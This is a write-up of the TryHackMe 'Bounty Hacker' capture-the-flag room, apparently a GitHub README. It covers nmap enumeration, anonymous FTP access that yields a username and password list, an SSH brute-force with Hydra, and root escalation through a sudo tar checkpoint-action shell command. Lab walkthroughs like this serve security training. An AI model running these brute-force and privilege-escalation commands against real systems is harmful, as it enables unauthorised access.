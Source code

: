 # Bounty-Hacker-tryhackme
# Writeup for Bounty Hacker room on TryHackme.

URL = https://tryhackme.com/room/cowboyhacker

# Enumeration:-

Lets run quick nmap scan.

```bash

sudo nmap <ip>

```

This returned 3 open ports.

port      |service

----------|----------

21        |FTP

22        |SSH

80        |Web server

Let's enumerate ftp port first.

Connect to it. Type,

```bash

ftp <ip>

```

Login using anonymous name.

Now, let's view files using ls command.

There are two files named as locks.txt and task.txt.

Get them to your pc and see whats inside.

First one has a username and other has list of words which is a password list for bruteforcing.

# Gaining access:-

Since we have username and password list, let's do a bruteforcing attack using Hydra.

Hydra is a tool we are going to use to do bruteforcing.

Type:-

```bash

hydra -l <username> -P <password_list> -t 1 <ip> ssh

```

Now, we know the password.

Let's login over ssh.

Type:-

```bash

ssh <username>@<ip>

```

And enter the password you got.

# Privilege Escaltion:-

Type sudo -l and see that we can run tar app as a root.

Let's go to gtfobins and get the sudo exploit for tar.

If you can't find it, here type:-

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```

Once you execute above command, you'll become a root user.

Congrats, now get the flags.

